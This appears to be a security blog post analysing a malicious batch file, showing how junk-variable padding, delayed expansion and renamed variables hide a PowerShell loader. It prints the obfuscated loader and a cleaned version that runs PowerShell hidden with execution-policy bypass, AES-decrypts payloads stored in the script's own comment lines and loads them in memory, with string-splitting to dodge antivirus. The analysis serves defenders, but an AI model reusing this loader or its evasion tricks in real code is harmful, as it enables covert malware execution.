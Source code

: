 ```yaml
---
layout: post
title: Batch Script Obfuscation
subtitle: Obfuscation techniques seen in the wild
cover-img: /assets/img/honk.png
thumbnail-img: /assets/img/bat.png
share-img: /assets/img/bat.png
tags: []
---
```


Earlier this week, I was investigating a batch script that made its way onto someone's system. I enjoy deobfuscating files, so here are some things specific to (but maybe not exclusive to) batch file obfuscation that I saw.

Below is the first part of the batch file. Essentially what was going on was there was a bunch of junk data that was inserted between some variables / text. I replaced the real junk to make it more visible, but the original junk data was a lot more randomized and less apparent that it repeated. 
~~~
@echo off
set s=%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%s%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%e%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%t%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%l%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%o%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%c%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%a%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%l%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%
set e=%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%e%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%n%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%a%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%b%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%
set d=%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%l%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%e%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%d%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%e%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%l%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%a%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%y%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%e%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%d%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%
set x=%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%e%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%x%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%p%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%a%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%n%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%s%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%i%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%o%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%n%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%
set rah=%s% %e%%d%%x%
call %rah%
~~~

From there, if we trim it down, we get this

~~~
@echo off
set s=setlocal
set e=enab
set d=ledelayed
set x=expansion
set rah=s edx
call rah
~~~

Which further evaluates to

~~~
@echo off
setlocal enabledelayedexpansion
~~~

This was the first part of the obfuscation.


From here, it is obvious from the last line that there is something going on with powershell. If you also look at the top a bit, we also see **-noprofile -windowstyle hidden -ep bypass -command**, which is also very common in malicious powershell operations. Something else that is going on here, which is a key clue, is **[System.Security.Cryptography.Aes]::Create()**, which is a .NET constructor for creating AES-encrypted objects. So, the next section likely decrypts and runs a payload, but lets dive deeper first. Lastly, we some concatenated strings, aimed at evading static AV detection (**'S'+'ys'+'t'+'e'+'m'+'.E'+'nv'+'i'+'ro'+'n'+'me'+'n'+'t'**)

The dollar sign, **$**, denotes a variable in powershell. We see many more gibberish strings immediately preceded by the dollar signs, which means that the variables have been obfuscated. In this example, it is not through encoding or encryption, but rather their intention is obfuscated. It would be trivial for a computer to execute this code, but tough for a human to understand what is going on. From here, it is, at least in my experience, a game of guessing and renaming variables to what you think they might be. If you have no idea where to begin at guessing though, no problem! I find it good to just name things whatever, like var_1, var_2, and so on.

~~~
set "zsexdrzsexdrzsexdrzsexdrzsexdr=set"
set "bhunjibhunjibhunjibhunjibhunji=!zsexdrzsexdrzsexdrzsexdrzsexdr!"
!bhunjibhunjibhunjibhunjibhunji! "biEKBNtmaExERuKwsVMLBRoxNfgdBOZZfTeqnDLUczJcuRjyEOeuFpygzSomIwMJHSwaSolxpsaaYOpbrOAoyGSBUXFzabmcAHQJTBmedCbxRtefrpoVznryBpCfsoZqPRtcTGrFKZCPftRwdYOascUUJKqkhXdFsgRIQhdfqGYthaiRzKcwUswHzkjXLHmIsJQolrhgvItOJteTIbStFwpjudZXnyNKuHNmURTsdITjBRKyhxwzrHpgWLffJkOoRVGuSmreBkaVDlUziIhbNFFbbFylVuDeDwuwqThpzjeXIrMuXaAmorLmsWnaBQoFiImpGRAJVwtzRXXoFZcjaLMPMboQCcMSJWVFGsuZkAXbhxnGN=-noprofile -windowstyle hidden -ep bypass -command $unceunceunceunceunceunceunec = '%~f0';	$qwertyqwertyqwertyqwertyqwerty=[System.Security.Cryptography.Aes]::Create();		$qwertyqwertyqwertyqwertyqwerty.IV=[System.Convert]::FromBase64String('1JvmIAo8jn8Quu7BilO+6w==');	$qwertyqwertyqwertyqwertyqwerty.Padding=[System.Security.Cryptography.PaddingMode]::PKCS7;	$qwertyqwertyqwertyqwertyqwerty.Key=[System.Convert]::FromBase64String('9PVEPxhrf9bAPo5nbYothLVgwj9qp8wjNqedVM0sNJg=');		$qwertyqwertyqwertyqwertyqwerty.Mode=[System.Security.Cryptography.CipherMode]::CBC;function decrypt_function($param_var){	$asdfgasdfgasdfgasdfgasdfg=$qwertyqwertyqwertyqwertyqwerty.CreateDecryptor();	$yuiopyuiopyuiopyuiopyuiop=$asdfgasdfgasdfgasdfgasdfg.TransformFinalBlock($param_var, 0, $param_var.Length);	$yuiopyuiopyuiopyuiopyuiop;}function execute_function($param_var,$param2_var){	$ghjklghjklghjklghjklghjkl=[System.Reflection.Assembly]::Load([byte[]]$param_var);	$zxcvbzxcvbzxcvbzxcvbzxcvb=$ghjklghjklghjklghjklghjkl.EntryPoint;	$zxcvbzxcvbzxcvbzxcvbzxcvb.Invoke($null, $param2_var);}$host.UI.RawUI.WindowTitle = $unceunceunceunceunceunceunec;$njimkonjimkonjimkonjimkonjimko = [type]::GetType('Syst'+'e'+'m'+'.I'+'O.F'+'i'+'l'+'e');$cvbnmcvbnmcvbnmcvbnmcvbnm = [type]::GetType('S'+'ys'+'t'+'e'+'m'+'.E'+'nv'+'i'+'ro'+'n'+'me'+'n'+'t');$plokmplokmplokmplokmplokm = $njimkonjimkonjimkonjimkonjimko::ReadAllText($unceunceunceunceunceunceunec);$ytrewytrewytrewytrewytrew = $cvbnmcvbnmcvbnmcvbnmcvbnm::NewLine;$poiuypoiuypoiuypoiuypoiuy = $plokmplokmplokmplokmplokm.Split($ytrewytrewytrewytrewytrew);$jhgfdjhgfdjhgfdjhgfdjhgfd = $poiuypoiuypoiuypoiuypoiuy;foreach ($vgybhuvgybhuvgybhuvgybhuvgybhu in $jhgfdjhgfdjhgfdjhgfdjhgfd) {	if ($vgybhuvgybhuvgybhuvgybhuvgybhu.StartsWith(':: '))	{		$tfcrdxtfcrdxtfcrdxtfcrdxtfcrdx=$vgybhuvgybhuvgybhuvgybhuvgybhu.Substring(3);		break;	}}$payloads_var=[string[]]$tfcrdxtfcrdxtfcrdxtfcrdxtfcrdx.Split('\');$payload1_var= decrypt_function ([Convert]::FromBase64String($payloads_var[0]));$payload2_var= decrypt_function ([Convert]::FromBase64String($payloads_var[1]));execute_function $payload1_var $null;execute_function $payload2_var (,[string[]] ('%*'));"
!bhunjibhunjibhunjibhunjibhunji! "ckgMzaltivLxuGAeCevHMWWHEdYyKliYXvbInLefrxEmnhjvzletlABeTtxDfCRNHZEDcZpGxHioaPbbHebBYQXCZdICsBNzMFcpjRABMdjjcBhBWPfScDsKoNuCAcJGRlPirXRNXderAmpuF="%systemdrive%\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe" "
~~~

After som trial and error, and with the help of ChatGPT to guess some of the names, this is what i landed on

~~~
!delayed_var_2! "profile_var=-noprofile -windowstyle hidden -ep bypass -command $command = '%~f0';
$aesEncryptor=[System.Security.Cryptography.Aes]::Create();
$aesEncryptor.IV=[System.Convert]::FromBase64String('QUVTLUlW');
$aesEncryptor.Padding=[System.Security.Cryptography.PaddingMode]::PKCS7;
$aesEncryptor.Key=[System.Convert]::FromBase64String('QUVTLUtleQ==');
$aesEncryptor.Mode=[System.Security.Cryptography.CipherMode]::CBC;
function decrypt_function($param_var)
  {
  $decryptor = $aesEncryptor.CreateDecryptor();
  $decrypted_bytes = $decryptor.TransformFinalBlock($param_var, 0, $param_var.Length);
  $decrypted_bytes;
  }
function execute_function($param_var, $param2_var)
  {
  $assembly = [System.Reflection.Assembly]::Load([byte[]]$param_var);
  $entry_point = $assembly.EntryPoint;
  $entry_point.Invoke($null, $param2_var);
  }
$host.UI.RawUI.WindowTitle = $payloadFilePath;
$fileType = [type]::GetType('System.IO.File');
$envType = [type]::GetType('System.Environment');
$payloadFileContents = $fileType::ReadAllText($payloadFilePath);
$newline = $envType::NewLine;
$lines = $payloadFileContents.Split($newline);
$lineArray = $lines;
foreach ($line in $lineArray)
  {
  if ($line.StartsWith(':: '))
    {
    $payloadDataEncoded = $line.Substring(3);
    break;
    }
  }
!delayed_var_2! "unknown"%systemdrive%\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe" "
~~~
